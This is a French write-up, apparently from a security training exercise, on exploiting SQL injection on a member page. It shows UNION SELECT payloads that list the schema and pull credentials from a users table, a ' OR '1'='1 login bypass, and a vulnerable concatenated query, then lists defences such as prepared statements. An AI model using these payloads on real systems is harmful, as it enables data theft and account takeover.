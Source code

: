 # SQL Injection
/index.php?page=member

## Méthodologie
Si l'on effectue 1 OR 1, on remarque que les données de la table s'affichent :
![members-page](Assets/members-page.png)

On en profite alors pour pousser plus loin en utilisant des commandes SQL et information_schema afin d'afficher toutes les tables et leurs colonnes :

1 UNION SELECT table_name, column_name FROM information_schema.columns

Ensuite, on recherche les données dans la table qui nous intéresse, à savoir "users" 

1 UNION SELECT Commentaire, countersign FROM users
![flag-to-decrypt](Assets/flagToDecrypt.png)

## Détails de la faille
La faille d’injection SQL permet à un attaquant d’exécuter des requêtes SQL malveillantes sur une base de données en exploitant des entrées utilisateur mal filtrées.
Cette vulnérabilité survient lorsque les données saisies par un utilisateur sont directement intégrées dans une requête SQL sans être correctement validées ou échappées.

Un attaquant peut injecter du code SQL via un champ de formulaire, un paramètre d’URL ou toute autre entrée utilisateur afin d’accéder, modifier ou supprimer des données sensibles.

Par exemple, une requête vulnérable comme :

SELECT * FROM utilisateurs WHERE nom = '" + input_nom + "' AND mdp = '" + input_mdp + "';"

peut être exploitée avec une saisie comme :

' OR '1'='1

Ce qui transformerait la requête en :

SELECT * FROM utilisateurs WHERE nom = '' OR '1'='1' AND mdp = '';

Cette condition étant toujours vraie, l’attaquant pourrait contourner l’authentification et accéder à des comptes utilisateurs.

## Type de faille
- **Vulnérabilité** : Injection SQL due à un manque de validation des entrées utilisateur.
- **Impact** : Un attaquant peut lire, modifier ou supprimer des données sensibles, compromettre des comptes et, dans certains cas, exécuter du code malveillant sur le serveur.

## Conclusion
L’injection SQL est une des vulnérabilités les plus dangereuses pour les applications web, car elle peut exposer des données critiques et permettre des prises de contrôle complètes.

Pour se protéger contre cette faille, il est essentiel de :

- **Utiliser des requêtes préparées** (requêtes paramétrées) pour empêcher l’injection de code SQL malveillant.
- **Éviter la concaténation directe** des entrées utilisateur dans les requêtes SQL.
- **Mettre en place des contrôles stricts** de validation et de filtrage des entrées avant leur utilisation dans une requête.
- **Restreindre les permissions des comptes SQL** pour limiter les dommages potentiels en cas d’attaque.